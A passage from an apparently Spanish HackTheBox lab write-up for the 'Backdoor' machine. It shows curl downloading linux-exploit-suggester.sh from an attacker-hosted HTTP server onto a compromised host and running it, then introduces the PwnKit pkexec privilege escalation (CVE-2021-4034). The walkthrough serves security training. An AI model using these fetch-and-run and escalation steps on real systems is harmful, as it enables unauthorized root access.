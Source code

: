 Levantamos servidor web donde tenemos el archivo `linux-exploit-suggester.sh`:

> Recordemos que esto se hace ya que las máquinas de <u>HackTheBox</u> no tienen acceso a internet, ahí como dato :*

```bash
❱ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y lo subimos:

```bash
user@Backdoor:/tmp/test$ curl http://10.10.14.19:8000/linux-exploit-suggester.sh -o liexsu.sh
user@Backdoor:/tmp/test$ ls 
liexsu.sh
# Le damos permisos de ejecución:
user@Backdoor:/tmp/test$ chmod +x liexsu.sh
```

Ejecutamos:

```bash
user@Backdoor:/tmp/test$ ./liexsu.sh
```

Encuentra estos posibles exploits:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/backdoor/416bash_userRevSH_linuxExploitSuggester_exploitsFound.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Pos vayamos uno a uno testeando si logramos algo con ellos (:

## Hacemos el Kit del Pwn [📌](#lpe-pwnkit) {#lpe-pwnkit}

Buscando en la web nos instruimos:

> La vulnerabilidad "permite a un usuario sin privilegios obtener root de manera fácil e inmediata aprovechando una vulnerabilidad de escalada de privilegios local en la utilidad <u>pkexec de polkit</u>" (antes conocido como <u>PolicyKit</u>) ~ [unaaldia.hispasec.com](https://unaaldia.hispasec.com/2022/02/prueba-de-concepto-pwnkit-cve-2021-4034.html)

Pero, ¿qué es eso de `polkit` o `PolicyKit`?, también nos lo explican:

> "Componente encargado de <u>controlar y gestionar los privilegios de todo el sistema</u>, organizando como «intermediario» <u>para que los procesos no privilegiados se comuniquen con los procesos privilegiados</u>." ~ [unaaldia.hispasec.com](https://unaaldia.hispasec.com/2022/02/prueba-de-concepto-pwnkit-cve-2021-4034.html)

Uhhhh, muy prometedorrrr... En él [post publicado por las personas que encontraron la vuln](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt) (o [este](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)) tenemos más info y el paso a paso de como la hallaron:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/backdoor/416google_pwnkit_qualys_OfficialSecurityAdvisor.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Les dejo otro post para profundizar: [PwnKit ~ welivesecirity](https://www.welivesecurity.com/la-es/2022/01/27/pwnkit-nueva-vulnerabilidad-linux-permite-acceso-root/).
